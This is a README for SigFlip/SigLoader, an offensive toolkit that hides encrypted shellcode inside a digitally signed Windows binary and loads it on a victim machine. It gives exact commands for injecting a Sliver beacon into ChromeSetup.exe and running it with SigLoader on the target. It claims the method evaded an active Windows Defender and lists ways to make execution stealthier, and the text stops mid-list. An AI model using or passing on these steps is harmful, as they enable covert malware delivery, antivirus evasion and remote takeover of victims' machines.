

SigFlip / SigLoader
Background
These tools are used for embedding custom shellcode into a signed binary. The binary is executed in a victim system using SigLoader.exe. A Windows machine is required for using this toolkit.
Since the (malicious) shellcode is encrypted, this method is highly effective at smuggling shellcode into the victim host past any defensive measures.
Link to the original Git repository.
Two executables and three libraries have been already compiled using VS Studio. The ready-to-use toolbox includes five files listed in the table below.
| File | Function | Purpose |
|---|---|---|
| SigFlip.exe | Shellcode encrypter & injector | Execute in attacker's Windows machine |
| SigLoader.exe | Shellcode decrypter & loader | Execute in victim's Windows machine |
| vcruntime140d.dll | DLL required by SigLoader.exe | Transfer to victim machine with SigLoader |
| ucrtbased.dll | DLL required by SigLoader | Transfer to victim machine with SigLoader |
| ucrtbase.dll | DLL required by SigLoader | Transfer to victim machine with SigLoader |
Technical information
For this attack, two separate executables are used.
SigFlip is a tool to embed shellcode into a digitally signed binary. Before embedding the shellcode into PE file's WIN_CERTIFICATE certificate table, the shellcode is encrypted with a password provided by the user (symmetric encryption).
The shellcode is separately generated in a raw binary format (for example using -f raw in Metasploit, -f shellcode for Sliver and so on).
This creates a new signed binary with the embedded encrypted shellcode and a valid digital signature.
SigLoader is used in the victim system to find the encrypted shellcode from the specified binary, to be decrypted with a given password, loaded into memory and executed.
The loader executable utilizes an egg-hunt style mechanic to find the shellcode's position by looking for a hex value 0xfeedface. Once the shellcode is found it is decrypted and loaded into memory and executed.
Embedding shellcode to a signed binary
A digitally signed binary ChromeSetup.exe was used for testing purposes. As shellcode, a Sliver beacon payload was used.
The following syntax is used to encrypt a shellcode and embed it into a binary:
SigFlip.exe -i <ORIG_EXE> -s <SHCODE.BIN> -o <OUTFILE.EXE> -e <PASSWORD>
SigFlip.exe -i .\ChromeSetup.exe -s .\beacon.bin -o mod_chrome.exe -e password
Executing the loader and shellcode on the victim machine
Deliver the loader files (SigLoader.exe + 3 DLLs) along with the mod_chrome.exe to the victim machine.
To execute the encrypted shellcode inside mod_chrome.exe, run the following command on the target system:
SigLoader.exe mod_chrome.exe password
In the example below, SigLoader was used to execute a Sliver beacon shellcode on Windows 10 with Defender up-to-date and active (11th May, 2023):

The following screenshot shows Sliver server catching the callback from agent.

Improvement ideas
General ideas for making the execution more stealthy:
- Run the command with Run as a hidden process
- Modify the source code to make SigLoader not print such suspicious texts
- Deliver